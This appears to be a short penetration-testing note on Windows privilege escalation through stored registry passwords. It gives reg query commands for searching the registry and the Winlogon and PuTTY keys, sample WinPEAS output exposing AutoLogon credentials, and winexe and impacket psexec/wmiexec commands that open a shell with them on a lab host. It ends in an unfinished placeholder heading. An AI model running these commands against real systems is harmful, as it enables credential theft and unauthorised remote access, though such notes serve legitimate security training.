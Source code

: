 #windows #privesc #registry #password #cmd 

Even administrators re-use their passwords , or leave their passwords on systems in readable locations.

Windows can be especially vulnerable to this, as several features of Windows store passwords insecurely.

# Registry

Plenty of programs store configuration options in the Windows Registry.
Windows itself sometimes will store passwords in plaintext in the Registry.
It is always worth searching the Registry for passwords.

```cmd
reg query HKLM /f password /t REG_SZ /s
reg query HKLM /f password /t REG_SZ /s
```

This usually generates a lot of results , so often it is more fruitful to look in known locations.

## 1 - Enumerate win WinPeas 

```bash
[+] Looking for AutoLogon credentials(T1012)                                       
    Some AutoLogon credentials were found!!                                       
    DefaultUserName               :  admin                                       
    DefaultPassword               :  password123
```

Some AutoLogon credentials for the Admin user and password

```bash
[+] Putty Sessions()
    SessionName: BWP123F42
    ProxyPassword: password123
    ProxyUsername: admin
```

And Putty Session and again with the username admin and the same password

We can verify manually by query the registry :

```cmd
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```

And for the puTTy Session 

```cmd
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s
```

### Spawn a shell via SMB 

```bash
winexe -U 'admin%password123' //192.168.145.182 cmd.exe
```

 With impacket 
```bash
impacket-psexec admin:password123@192.168.145.182

impacket-wmiexec admin:password123@192.168.145.182 "ipconfig"

```




## 2 - fezfezfezf





  